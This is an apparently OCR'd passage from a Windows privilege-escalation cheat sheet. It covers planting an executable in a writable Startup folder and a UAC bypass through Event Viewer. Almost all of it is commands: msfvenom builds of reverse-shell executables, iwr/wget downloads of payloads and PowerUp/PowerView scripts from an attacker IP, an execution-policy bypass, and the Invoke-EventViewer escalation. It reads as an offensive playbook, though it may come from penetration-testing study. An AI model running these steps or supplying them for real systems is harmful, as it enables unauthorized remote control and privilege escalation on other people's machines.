 ### Startup Applications
-> Detection - Windows
```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" | findstr (F) 
\\BUILTIN\Users:(F)
```

-> msfvenom - Attacker VM
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o ok.exe
```

-> Exploitation - Windows
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile ok.exe)
move ok.exe “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”
logoff
```

## Bypass UAC
### EventViewer
-> Step 1 - Kali
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -f exe > ok.exe
```

-> Step 2 - Win Owned  
```
cd C:\Windows\tasks
iwr -uri 192.168.119.139:805/shell.exe -Outfile shell.exe
Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
```

-> Step 3 - Win Owned  
```
iwr -uri 192.168.119.139:805/powerup.ps1 -Outfile powerup.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```
`[+] Run a BypassUAC attack to elevate privileges to admin.`

-> Step 4 -Kali
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.139 LPORT=8445 -f exe > ok.exe
```

-> Step 5 - Win Owned
```
wget 192.168.119.139:805/Invoke-EventViewer.ps1 -O Invoke-EventViewer.ps1
. .\Invoke-EventViewer.ps1
Invoke-EventViewer cmd.exe /c "C:\Windows\tasks\shell2.exe"
Invoke-EventViewer C:\Windows\tasks\shell2.exe
```
https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1
